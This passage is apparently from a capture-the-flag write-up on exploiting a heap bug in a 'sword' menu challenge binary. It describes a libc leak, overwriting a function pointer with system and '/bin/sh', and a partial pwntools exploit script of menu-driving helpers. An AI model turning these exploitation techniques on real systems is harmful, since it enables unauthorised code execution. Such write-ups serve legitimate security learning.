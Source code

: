 Now we have a leak, and we have arbitrary write to a function pointer, so the next step is pretty simple.
We have to redo step 1 but use rewrite a sword name to a pointer to "/bin/sh" and a swords function pointer to "system"
"/bin/sh" can be found in libc, I used radare2 to search for it, but you can use gdb, or almost any other disassembler/debugger/static analysis tool.
radare2 reported "/bin/sh" at offset 0x18cd57. system@got was at offset 0x45390.

Putting both parts together:

```python

#!/bin/python2
from pwn import *
import re
import binascii

context.terminal = ["termite", "-e"]

def alloc(p):
    p.clean()
    p.sendline("1")
    idx = p.recvline_contains("sword index is")
    idx = idx.split(' ')
    idx = idx[len(idx)-1]
    idx = idx.split('.')[0]
    log.info('Alloc\'d: ' + idx)
    return idx

def harden(p, i, length, name):
    p.clean()
    p.sendline("5")
    p.sendlineafter("What's the index of the sword?", i)
    p.sendlineafter("What's the length of the sword name?", length)
    p.sendlineafter("Plz input the sword name.", name)
    p.sendlineafter("What's the weight of the sword?", "-1")
    #p.recvline_contains("NEW sword")

def leak_libc(p, i):
    p.clean()
    p.sendline("6")
    p.sendlineafter("What's the index of the sword?", i)
    dat = p.recvuntil('.....')
    log.info(dat)
    name = dat[13:19]
    hname = binascii.hexlify(name[::-1])
    test = struct.unpack("L", name+"\x00\x00")
    libc = hex(int(test[0]))
    return libc

def use_func(p, i):
    p.clean()
    p.sendline("6")
    p.sendlineafter("What's the index of the sword?", i)

def free(p, i):
    p.clean()
    p.sendline("4")
    p.sendlineafter("What's the index of the sword?", i)
    log.info("Object: " + i + " is free and slot is open")

def fake_free(p, i):
    p.clean()
    p.sendline("5")
    p.sendlineafter("What's the index of the sword?", i)
```